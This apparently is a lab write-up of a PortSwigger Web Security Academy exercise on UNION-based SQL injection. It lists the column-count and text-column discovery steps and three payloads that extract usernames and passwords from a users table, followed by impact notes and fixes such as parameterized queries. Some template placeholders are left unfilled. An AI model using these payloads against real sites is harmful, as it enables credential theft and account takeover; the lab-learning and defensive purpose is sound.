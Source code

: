 **Date / Analyst:** 2025-09-03 — Christopher Araque  
**Environment:** PortSwigger WSA — UNION-based SQL injection

## TL;DR

- UNION-based SQLi allows extracting data from another table.
- Retrieved credentials (e.g., administrator) by aligning column count and selecting from users.
- Fix: parameterized queries, least-priv DB user, generic errors.

## Scope & Target

- Endpoint/Param: `/filter?category=`
- Quote/comment used: `'` with `--+`
- Column count (N): **2**
- Visible text column(s): <1 or 2> <!-- pick the index that showed 'X' -->
- Final payload used (choose the one you actually used):
  - If both columns rendered text:  
    `' UNION SELECT username,password FROM users--+`
  - If only column 1 rendered text:  
    `' UNION SELECT CONCAT(username,':',password),NULL FROM users--+`
  - If only column 2 rendered text:  
    `' UNION SELECT NULL,CONCAT(username,':',password) FROM users--+`

## Steps (summary)

1. ' ORDER BY N to find column count
2. ' UNION SELECT NULL... to match N columns
3. Find text column(s) with 'X'
4. ' UNION SELECT username,password FROM users--+
5. Capture credentials/evidence

## Evidence

- Screenshot: ![Union Leak](../../evidence/ps-sqli-union/union-leak.png)
- Request: [union-request.txt](../../evidence/ps-sqli-union/union-request.txt)

## Impact

Credentials disclosure; account takeover; lateral movement.

## Recommended Fix

- Parameterized queries (no string concatenation)
- Least-privileged DB user; segregated roles
- Generic error handling; WAF rules for UNION patterns (temporary)
